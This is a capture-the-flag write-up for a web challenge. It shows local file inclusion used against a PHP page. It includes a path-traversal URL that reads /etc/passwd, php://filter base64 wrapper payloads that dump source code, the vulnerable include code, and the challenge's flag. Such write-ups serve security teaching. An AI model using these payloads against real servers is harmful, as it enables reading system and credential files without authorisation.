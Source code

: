 # Challenge Name: Loose Funding Interest 2


![date](https://img.shields.io/badge/date-08.03.2022-brightgreen.svg)  
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg)       
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-40-blue.svg)  

## Description

Created By **m4rc0s**

The same as Loose Funding Interest but a little harder, the same payload fails …

I think they have a WAF or some mechanism, how can I bypass this?

> **Hint** Can you extract the flag in base64 ?

http://35.178.97.233

## Detailed solution

![image](https://user-images.githubusercontent.com/72421091/157303780-66ed51b2-b849-4c7f-974a-6498f78a8863.png)

We have two pages at navbar

http://35.178.97.233/index.php?file=pages/forum.html
http://35.178.97.233/index.php?file=pages/news.html

We have a **file** parametre that take the location of file to display it. We probably can exploit local file inclusion

Let's try to read /etc/passwd

http://35.178.97.233/index.php?file=../../../../../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/72421091/157304152-6cd0cc76-9154-477a-8d59-fa65657b2c5d.png)

As we can see we were able to use LFI to read the /etc/passwd file now let's read the index.php

If we try to read directly the index.php file we gonna get some errors  

I'll use the base64 php wrapper to get the full source code  

http://35.178.97.233/index.php?file=php://filter/convert.base64-encode/resource=index.php

```
PD9waHAKJGZpbGVuYW1lID0gKGlzc2V0KCRfR0VUWyJmaWxlIl0pPyRfR0VUWyJmaWxlIl06InBhZ2VzL3dlbGNvbWUuaHRtbCIpOwppZigkX0dFVFsiZmlsZSJdID09ICJwYWdlcy9mbGFnIiApewoJZWNobyAiQmFhYWFhYWQgSGFja2VyIjsKfSBlbHNlIGluY2x1ZGUgJGZpbGVuYW1lOw==
```

Let's decode it i'll use cyberchef https://gchq.github.io/CyberChef/

```phph
<?php
$filename = (isset($_GET["file"])?$_GET["file"]:"pages/welcome.html");
if($_GET["file"] == "pages/flag" ){
	echo "Baaaaaad Hacker";
} else include $filename;
```

The flag is located at pages/flag let's use the same wrapper to read it

http://35.178.97.233/index.php?file=php://filter/convert.base64-encode/resource=pages/flag

```
Q1JJU0lTe2I3Zjg0NTkzODkzfQ==
```

Decode base64 => CRISIS{b7f84593893} 

## Flag

```
CRISIS{b7f84593893}
```
